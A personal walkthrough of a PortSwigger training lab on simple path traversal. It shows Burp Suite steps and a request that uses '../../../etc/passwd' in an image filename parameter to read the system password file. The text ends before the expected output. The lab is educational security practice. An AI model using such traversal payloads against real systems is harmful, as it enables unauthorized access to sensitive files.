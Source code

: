 # **🛡️ PortSwigger Path traversal (directory  traversal).**

🙏 Welcome to my personal notes on Path Traversal-related challenges and labs on [https://portswigger.net/web-security/all-labs\#path-traversal](https://portswigger.net/web-security/all-labs#path-traversal).These notes are written from scratch based on techniques I practiced.

📛 Lab: File path traversal, simple case

## **🎯 Objective**

This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file.         

## **⚙️ Step-by-Step Solution (using Burp Suite)**

### **1\. 🔍 Access the Lab**

* Click "ACCESS THE LAB" on the challenge page to launch the vulnerable site.  
* You’ll be redirected to the storefront.

### **2\. 🕵️‍♂️ Intercept an Image Request**

* In Burp Suite:

  * Enable **Intercept** in the **Proxy** tab.  
  * Click on any product to view details and images and forward it in proxy **or** click on any product then click on intercept, right click to open image in the new tab.

You should see a request like:

GET /image?filename=9.jpg HTTP/2  
Host: [0a46008404e283d4800cead9002e000c.web-security-academy.net](http://0a46008404e283d4800cead9002e000c.web-security-academy.net)

* ### Send it to the **repeater**.

### **3\. 🧨 Modify the Payload**

Change the filename parameter to:  
../../../etc/passwd

Final request:  
GET /image?filename=../../../etc/passwd HTTP/2 

Host: [0a46008404e283d4800cead9002e000c.web-security-academy.net](http://0a46008404e283d4800cead9002e000c.web-security-academy.net)

### **4\. 📥 Forward and Observe**

* Forward the request and check the response in Burp or your browser.

You should see the contents of /etc/passwd, such as:
